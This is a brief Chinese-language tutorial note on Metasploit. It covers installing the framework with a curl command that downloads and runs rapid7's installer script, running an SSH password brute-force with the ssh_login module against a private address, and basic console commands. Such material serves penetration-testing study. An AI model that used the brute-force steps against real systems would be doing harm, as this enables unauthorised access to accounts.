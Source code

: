 ```yaml
---
title: 如何使用metasploit
tags: 技术
---
```


# 网络安全之metasploit

	各种漏洞测试的工具

# metasploit安装

这下不能直接命令安装了，搜索[官网](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

```shell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

# 开始使用
	以暴力破解ssh为例，开始演示
```shell
msfconsole
use auxiliary/scanner/ssh/ssh_login #使用这个模块
msf auxiliary(ssh_login) > set RHOSTS 10.0.0.27 # 设置remote host
msf auxiliary(ssh_login) > set USERPASS_FILE root_userpass.txt # 设置密码文件
msf auxiliary(ssh_login) > run # 开始测试
```

# 其它常用命令
1. help

	显示帮助命令

2. search

	查找漏洞模块,使用查找后use auxiliary/scanner/ssh/ssh_login，等价于下面的搜索
```shell
search ssh_login
use 0
```

3. options
	查看模块可以设置哪些选项
	主要设置required为yes的没有current setting的选项，即设置默认为空的选项
